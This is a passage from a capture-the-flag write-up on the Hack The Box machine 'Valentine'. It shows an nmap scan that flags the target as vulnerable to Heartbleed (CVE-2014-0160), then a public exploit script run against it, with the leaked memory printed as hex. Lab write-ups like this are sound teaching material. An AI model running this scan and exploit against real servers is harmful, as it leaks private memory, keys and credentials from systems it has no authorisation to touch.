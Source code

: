 Looking at the initial image, it seems like this box is vulnerable to Heartbleed. I can guess the vulnerability from two things. The name of the Box `Valentine` and the image we are seeing above. Running a simple checks using nmap confirms the finding.
```
# nmap -p443 --min-rate=1000 --script "ssl-heartbleed" -sC -sV -T3 10.10.10.79
PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
```

### `Heartbleed Exploitation`
###### `CVE-2014-0160`
```
# python2 32745.py 10.10.10.79 -p 443
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  00e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  00f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0100: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0110: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0120: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

